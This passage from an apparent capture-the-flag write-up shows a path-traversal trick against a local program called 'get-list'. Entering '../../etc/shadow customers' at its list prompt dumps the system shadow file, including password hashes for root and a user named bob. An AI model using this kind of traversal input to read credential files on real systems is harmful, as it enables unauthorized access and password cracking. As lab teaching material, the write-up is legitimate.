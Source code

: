```
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::
mysql:!:19123:0:99999:7:::
```

So to make life easier for us so we don't need to start stressing ourself i'll use `customers` as the last argument 

```
bob@wheels:/opt$ ./get-list 


Which List do you want to open? [customers/employees]: ../../etc/shadow customers
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
```